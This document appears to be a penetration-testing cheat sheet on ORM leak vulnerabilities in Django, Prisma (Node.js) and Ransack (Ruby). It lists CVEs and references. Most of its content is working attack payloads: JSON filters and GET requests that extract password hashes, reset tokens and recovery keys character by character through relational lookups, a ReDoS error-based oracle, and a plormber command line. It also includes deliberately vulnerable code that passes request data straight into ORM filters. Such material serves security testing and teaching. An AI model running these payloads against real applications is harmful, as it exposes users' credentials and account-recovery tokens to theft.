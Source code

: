 # ORM Leak

An ORM leak vulnerability occurs when sensitive information, such as database structure or user data, is unintentionally exposed due to improper handling of ORM queries. This can happen if the application returns raw error messages, debug information, or allows attackers to manipulate queries in ways that reveal underlying data.


## Summary

* [Django (Python)](#django-python)
    * [Query filter](#query-filter)
    * [Relational Filtering](#relational-filtering)
        * [One-to-One](#one-to-one)
        * [Many-to-Many](#many-to-many)
    * [Error-based leaking - ReDOS](#error-based-leaking---redos)
* [Prisma (Node.JS)](#prisma-nodejs)
    * [Relational Filtering](#relational-filtering-1)
        * [One-to-One](#one-to-one-1)
        * [Many-to-Many](#many-to-many-1)
* [Ransack (Ruby)](#ransack-ruby)
* [CVE](#cve)
* [References](#references)


## Django (Python)

The following code is a basic example of an ORM querying the database.

```py
users = User.objects.filter(**request.data)
serializer = UserSerializer(users, many=True)
```

The problem lies in how the Django ORM uses keyword parameter syntax to build QuerySets. By utilizing the unpack operator (`**`), users can dynamically control the keyword arguments passed to the filter method, allowing them to filter results according to their needs.


### Query filter

The attacker can control the column to filter results by. 
The ORM provides operators for matching parts of a value. These operators can utilize the SQL LIKE condition in generated queries, perform regex matching based on user-controlled patterns, or apply comparison operators such as < and >.


```json
{
    "username": "admin",
    "password__startswith": "p"
}
```

Interesting filter to use:

* `__startswith`
* `__contains`
* `__regex`


### Relational Filtering

Let's use this great example from [PLORMBING YOUR DJANGO ORM, by Alex Brown](https://www.elttam.com/blog/plormbing-your-django-orm/)
![](https://www.elttam.com/assets/images/blog/2024-06-24-plormbing-your-django-orm/UML-example-app-simplified-highlight1.png)

We can see 2 type of relationships:

* One-to-One relationships
* Many-to-Many Relationships


#### One-to-One

Filtering through user that created an article, and having a password containing the character `p`.

```json
{
    "created_by__user__password__contains": "p"
}
```


#### Many-to-Many

Almost the same thing but you need to filter more.

* Get the user IDS: `created_by__departments__employees__user__id`
* For each ID, get the username: `created_by__departments__employees__user__username` 
* Finally, leak their password hash: `created_by__departments__employees__user__password`

Use multiple filters in the same request:

```json
{
    "created_by__departments__employees__user__username__startswith": "p",
    "created_by__departments__employees__user__id": 1
}
```


### Error-based leaking - ReDOS

If Django use MySQL, you can also abuse a ReDOS to force an error when the filter does not properly match the condition.

```json
{"created_by__user__password__regex": "^(?=^pbkdf1).*.*.*.*.*.*.*.*!!!!$"}
// => Return something

{"created_by__user__password__regex": "^(?=^pbkdf2).*.*.*.*.*.*.*.*!!!!$"}  
// => Error 500 (Timeout exceeded in regular expression match)
```


## Prisma (Node.JS)

**Tools**:

* [elttam/plormber](https://github.com/elttam/plormber) - tool for exploiting ORM Leak time-based vulnerabilities
    ```ps1
    plormber prisma-contains \
        --chars '0123456789abcdef' \
        --base-query-json '{"query": {PAYLOAD}}' \
        --leak-query-json '{"createdBy": {"resetToken": {"startsWith": "{ORM_LEAK}"}}}' \
        --contains-payload-json '{"body": {"contains": "{RANDOM_STRING}"}}' \
        --verbose-stats \
        https://some.vuln.app/articles/time-based;
    ```

**Example**:

Example of an ORM leak in Node.JS with Prisma.

```js
const posts = await prisma.article.findMany({
    where: req.query.filter as any // Vulnerable to ORM Leaks
})
```

Use the include to return all the fields of user records that have created an article

```json
{
    "filter": {
        "include": {
            "createdBy": true
        }
    }
}
```

Select only one field

```json
{
    "filter": {
        "select": {
            "createdBy": {
                "select": {
                    "password": true
                }
            }
        }
    }
}
```


### Relational Filtering

#### One-to-One

* [`filter[createdBy][resetToken][startsWith]=06`](http://127.0.0.1:9900/articles?filter[createdBy][resetToken][startsWith]=)

#### Many-to-Many

```json
{
    "query": {
        "createdBy": {
            "departments": {
                "some": {
                    "employees": {
                        "some": {
                            "departments": {
                                "some": {
                                    "employees": {
                                        "some": {
                                            "departments": {
                                                "some": {
                                                    "employees": {
                                                        "some": {
                                                            "{fieldToLeak}": {
                                                                "startsWith": "{testStartsWith}"
                                                            }
                                                        }
                                                    }
                                                }
                                            }
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```


## Ransack (Ruby)

Only in Ransack < `4.0.0`.

![](https://assets-global.website-files.com/5f6498c074436c349716e747/63ceda8f7b5b98d68365bdee_ransack_bruteforce_overview-p-1600.png)

* Extracting the `reset_password_token` field of a user
    ```ps1
    GET /posts?q[user_reset_password_token_start]=0 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=1 -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2 -> Results in page

    GET /posts?q[user_reset_password_token_start]=2c -> Empty results page
    GET /posts?q[user_reset_password_token_start]=2f -> Results in page
    ```

* Target a specific user and extract his `recoveries_key`
    ```ps1
    GET /labs?q[creator_roles_name_cont]=​superadmin​​&q[creator_recoveries_key_start]=0
    ```


## CVE

* [CVE-2023-47117: Label Studio ORM Leak](https://github.com/HumanSignal/label-studio/security/advisories/GHSA-6hjj-gq77-j4qw)
* [CVE-2023-31133: Ghost CMS ORM Leak](https://github.com/TryGhost/Ghost/security/advisories/GHSA-r97q-ghch-82j9)
* [CVE-2023-30843: Payload CMS ORM Leak](https://github.com/payloadcms/payload/security/advisories/GHSA-35jj-vqcf-f2jf)


## References

- [ORM Injection - HackTricks - July 30, 2024](https://book.hacktricks.xyz/pentesting-web/orm-injection)
- [ORM Leak Exploitation Against SQLite - Louis Nyffenegger - July 30, 2024](https://pentesterlab.com/blog/orm-leak-with-sqlite3)
- [plORMbing your Django ORM - Alex Brown - June 24, 2024](https://www.elttam.com/blog/plormbing-your-django-orm/)
- [plORMbing your Prisma ORM with Time-based Attacks - Alex Brown - July 9, 2024](https://www.elttam.com/blog/plorming-your-primsa-orm/)
- [QuerySet API reference - Django - August 8, 2024](https://docs.djangoproject.com/en/5.1/ref/models/querysets/)
- [Ransacking your password reset tokens - Lukas Euler - January 26, 2023](https://positive.security/blog/ransack-data-exfiltration)